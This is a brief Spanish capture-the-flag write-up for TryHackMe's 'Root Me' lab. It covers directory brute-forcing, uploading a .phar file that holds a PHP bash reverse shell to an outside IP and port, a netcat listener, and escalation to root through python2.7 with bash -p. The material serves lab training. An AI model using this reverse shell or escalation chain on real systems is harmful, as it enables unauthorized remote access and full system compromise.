

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/rootme/index.html · generator: mkdocs

# Root Me

![](../../assets/img/Pasted_image_20251014232156.png)

Gobuster -> /panel y /uploads

subimos archivo phar con revshell
`<?php exec("bash -c 'bash -i >&/dev/tcp/10.8.63.150/4444 0>&1'"); ?>`
`nc -nvlp 4444`
**www-data**

A nivel de Sudoers se puede ejecutar *python2.7*
`python2.7 -c 'import os; os.execl("/bin/bash", "sh", "-p")'`
"/bin/bash" : provee el PATH
"sh" : ejecuta el comando
"-p" : parámetro para ejecutar bash privilegiada
**root**
